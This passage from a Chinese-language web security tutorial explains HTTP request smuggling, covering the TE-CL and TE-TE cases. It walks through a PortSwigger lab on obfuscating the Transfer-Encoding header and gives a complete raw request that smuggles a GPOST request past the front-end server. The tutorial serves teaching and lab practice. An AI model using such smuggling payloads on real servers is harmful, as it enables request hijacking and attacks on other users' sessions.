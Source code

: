 [![](assets/1698897445-50739784537586e903d8cf76a72df3ae.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191122230209.png)

过程流程与 CL-TE 类似，Front 服务器处理这个请求的时候按照 TE 优先处理，会认为上面的请求为一个请求整体，然后转发给 Backend 服务器，Backend 服务器在处理的时候按照 CL 优先处理，会认为`12\r\n`为第一个请求的 body，以下为第二个请求，所以会响应 GPOST 为无法识别的 HTTP Method。

### Two Identical Fields - TE

这里我们来看 TE 都存在的情况，同样我们借助 LAB 实验来加深理解：[Lab: HTTP request smuggling, obfuscating the TE header](https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header)

> This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.
> 
> To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

按照题目提示，我们要达到的仍然是让后端收到 GPOST 请求，而且场景也明确告诉我们是一种 TE-TE 的场景。其实这个场景也可以认为是相同字段的场景处理，比如说在处理两个 TE 字段，如果取第二个 TE 字段作为解析标准，而第二个字段值非正常或者解析出错，就可能会忽略掉 TE 字段，而使用 CL 字段进行解析。比如在这个 LAB 中，我们发送两遍如下请求：

```plain
POST / HTTP/1.1
Host: acfd1f201f5fb528809b582e004200a3.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=9swxitdhJRXeFhq77wGSU7fKw0VTiuzQ
Cache-Control: max-age=0
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: nothing

12
GPOST / HTTP/1.1

0
```

